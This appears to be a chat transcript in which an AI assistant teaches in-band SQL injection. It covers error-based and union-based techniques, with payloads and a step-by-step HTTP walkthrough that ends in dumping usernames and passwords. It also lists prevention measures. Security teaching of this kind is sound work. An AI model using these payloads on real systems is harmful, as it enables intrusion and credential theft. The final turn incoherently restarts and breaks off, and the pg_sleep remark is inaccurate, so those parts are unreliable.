 

# In-Band SQL Injection (SQLi)

In-Band SQL Injection is one of the most common and straightforward types of SQL injection attacks where the attacker uses the same communication channel to both launch the attack and gather results.

## Types of In-Band SQLi:

1. **Error-Based SQLi**:
   - Relies on error messages returned by the database server
   - Attacker intentionally causes errors to extract information
   - Example: `' OR 1=CONVERT(int, (SELECT table_name FROM information_schema.tables))--`

2. **Union-Based SQLi**:
   - Uses the UNION SQL operator to combine results from multiple SELECT statements
   - Requires knowledge of the database structure
   - Example: `' UNION SELECT username, password FROM users--`

## Characteristics:
- Results are returned directly in the application's response
- Easier to exploit than other types (blind SQLi)
- Often used for data extraction

## Prevention:
- Use parameterized queries/prepared statements
- Implement proper error handling (don't show DB errors to users)
- Apply principle of least privilege for DB accounts
- Use web application firewalls (WAFs)

Explain Error Based and Union Based a bit more

 # In-Band SQL Injection: Error-Based and Union-Based

## Error-Based SQL Injection

Error-based SQL injection is a technique where attackers deliberately cause the database to generate error messages that reveal information about the database structure or contents.

**How it works:**
1. The attacker submits malicious input that causes a SQL error
2. The application displays the error message (either directly or in logs)
3. The error contains sensitive information about:
   - Database structure (table names, column names)
   - Database type/version
   - Query syntax that can be exploited further

**Example:**
```sql
' AND 1=CONVERT(int, (SELECT table_name FROM information_schema.tables))--
```
This might return an error like:
```
Conversion failed when converting the nvarchar value 'users' to data type int.
```
Revealing that there's a table called "users".

**Characteristics:**
- Relies on verbose error reporting
- Works even when no data is returned to the user
- Often used for reconnaissance before other attacks

## Union-Based SQL Injection

Union-based SQL injection leverages the UNION SQL operator to combine results from the original query with results from an injected query.

**How it works:**
1. The attacker determines the number of columns in the original query
2. They craft a UNION SELECT statement with matching columns
3. The database combines and returns results from both queries

**Example:**
```sql
' UNION SELECT username, password FROM users--
```

**Key requirements:**
1. Both queries must return the same number of columns
2. Corresponding columns must have compatible data types

**Process for exploitation:**
1. Find vulnerable parameter (through testing with `'` or `"`)
2. Determine number of columns (using ORDER BY or UNION SELECT NULL,...)
3. Identify which columns are displayed in output
4. Craft UNION SELECT to extract desired data

**Example step-by-step:**

Continue from Example Step-by-step


# In-Band SQL Injection: Error-Based and Union-Based - Continued

## Union-Based SQL Injection Step-by-Step Example

Let's walk through a complete example of exploiting a union-based SQL injection:

1. **Identify vulnerable parameter**:
   ```http
   GET /products?id=1' HTTP/1.1
   ```
   If this returns a database error, the parameter may be vulnerable.

2. **Determine number of columns**:
   Method 1 (ORDER BY):
   ```http
   GET /products?id=1 ORDER BY 1-- HTTP/1.1
   GET /products?id=1 ORDER BY 2-- HTTP/1.1
   ...
   ```
   When you exceed the number of columns (e.g., ORDER BY 5 fails), you've found the limit.

   Method 2 (UNION SELECT):
   ```http
   GET /products?id=1 UNION SELECT NULL-- HTTP/1.1
   GET /products?id=1 UNION SELECT NULL,NULL-- HTTP/1.1
   ...
   ```
   Continue adding NULLs until no error occurs.

3. **Find which columns are displayed**:
   Replace NULLs with numbers or strings to see which appear in output:
   ```http
   GET /products?id=999 UNION SELECT 111,'aaa',222-- HTTP/1.1
   ```
   999 ensures original query returns no results so we only see our injected data.

4. **Extract data**:
    Now replace the placeholders with real queries:
    ```http
    GET /products?id=999 UNION SELECT NULL,table_name,NULL FROM information_schema.tables-- HTTP/1.1
    ```

5. **Get sensitive data**:
    Once you know table and column names: 
    ```http
    GET /products?id=999 UNION SELECT NULL,username,password FROM users-- HTTP/1.1
    ```

## Error-Based SQL Injection Advanced Techniques

Attackers often use these functions for error-based extraction:

- `CONVERT()` or `CAST()` to force type conversion errors
- `EXEC()` to execute dynamic SQL that generates errors 
- Database-specific functions like PostgreSQL's `pg_sleep()` with time-based errors

**Example extracting database version**:
```sql
' AND 1=CONVERT(int, @@VERSION)--
```
Might return:
```
Conversion failed when converting the nvarchar value '

continue

 It looks like you're referencing a topic related to **In-Band SQL Injection (SQLi)**, possibly from a tutorial or course.  

### **What is In-Band SQL Injection?**  
In-Band SQL Injection is one of the most straightforward types of SQLi, where an attacker uses the same communication channel to both launch the attack and retrieve results. There are two main types:  

1. **Error-Based SQLi** – Exploits database error messages to extract information.  
2. **Union-Based SQLi** – Uses the `UNION` operator to combine malicious queries with legitimate ones, retrieving data from different tables.  

### **Example of Union-Based

